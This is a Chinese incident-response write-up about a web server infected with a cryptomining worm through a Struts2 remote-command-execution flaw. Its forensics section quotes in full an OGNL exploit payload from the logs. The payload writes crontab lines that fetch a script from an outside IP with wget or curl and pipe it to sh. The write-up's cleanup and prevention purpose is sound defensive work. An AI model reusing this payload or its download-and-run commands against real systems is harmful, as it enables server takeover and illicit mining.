


## 第3篇：挖矿病毒

### 0x00 前言

​	随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。

### 0x01 应急场景

​	某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：



###0x02 事件分析

#### A、排查过程	

登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :


下载logo.jpg，包含脚本内容如下：

	

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。


#### B、溯源分析

​	在Tomcat log日志中，我们找到这样一条记录：


对日志中攻击源码进行摘录如下： 

`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} `

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。

#### C、清除病毒

1、删除定时任务:


2、终止异常进程:


#### D、漏洞修复

​	升级struts到最新版本 

### 0x03 防范措施

​	针对服务器被感染挖矿程序的现象，总结了几种预防措施：

```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```


